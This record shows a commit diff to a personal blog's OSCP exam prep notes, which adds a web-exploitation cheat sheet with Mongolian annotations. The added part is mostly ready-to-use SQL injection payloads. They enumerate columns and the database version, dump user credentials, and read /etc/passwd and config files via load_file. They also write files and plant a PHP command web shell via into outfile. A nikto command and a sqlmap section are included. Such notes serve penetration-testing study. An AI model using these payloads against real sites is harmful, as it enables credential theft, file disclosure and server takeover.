

Before and after one commit to fg0x0/fg0x0.github.io, a Jekyll site: the page built from _posts/2022-01-25-OSCP-Preparation-All-The-Things.md, in a window 1280 px wide and 1400 px high. Shown: the whole window, without its empty margins (285-994 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
oscp-prep-4

````diff
--- a/_posts/2022-01-25-OSCP-Preparation-All-The-Things.md
+++ b/_posts/2022-01-25-OSCP-Preparation-All-The-Things.md
@@ -18,7 +18,58 @@
 
 ### Web Exploitation
 
-### Sqlmap
+##### Directory Bruteforcing
+
+
+##### Nikto
+
+```
+nikto -h $HOST
+```
+
+##### SQL Injection
+
+```
+' order by 1 --
+' order by 1 -- -
+' order by 2 --
+' order by 3 --
+' order by 4 --
+' order by 5 --
+' order by 6 --
+' order by 7 --
+' order by 8 --
+' order by 9 --
+' union select 1,2,3,4,5,6,7,8 -- - ( Хэрвээ 4-р хэрэглэгчээр нэвтрэх юм бол )
+' union select 1,2,3,@@version,5,6,7,8 -- -
+' union select 1,2,3,user(),5,6,7,8 -- -
+
+' union select 1,2,3,column_name,5,6,7,8 from information_schema,columns where table_name='users'-- -
+
+' union select 1,2,3,group_concat(column_name),5,6,7,8 from information_schema,columns where table_name='users'-- -
+
+' union select 1,2,3,column_name,5,6,7,8 from information_schema,columns where table_name='users'-- - ( Group-лээд гаргаж ирнэ )
+
+' union select 1,2,3,group_concat(user_id,0x3a,first_name,0x3a,last_name,0x3a,email,0x3a, pass,0x3a,user_level),5,6,7,8 from users-- - ( table бүрийн урд хэсэгт 0x3a бичиж өгнө )
+
+
+File унших ( Read File )
+
+' union select 1,2,3,load_file('/etc/passwd'),5,6,7,8--
+' union select 1,2,3,load_file('/var/www/login.php'),5,6,7,8--
+' union select 1,2,3,load_file('/var/www/includes/config.inc.php'),5,6,7,8--
+' union select 1,2,3,load_file('/var/www/includes/../mysqli_connect.php'),5,6,7,8--
+
+File хуулах ( File Uploading )
+
+' union select 1,2,3,'Ene bol test file shuu',5,6,7,8 into outfile '/var/www/test-file'--
+
+PHP cmd shell хуулах
+
+' union select 1,2,3,"<?php system($_GET['cmd'])?>",5,6,7,8 into outfile '/var/www/rev-shell.php'--
+```
+
+##### Sqlmap ( Database )
 
 ```
 sqlmap -r sql.txt --dbs
````
Also changed, not shown: other parts of _posts/2022-01-25-OSCP-Preparation-All-The-Things.md (+2 -0 lines).
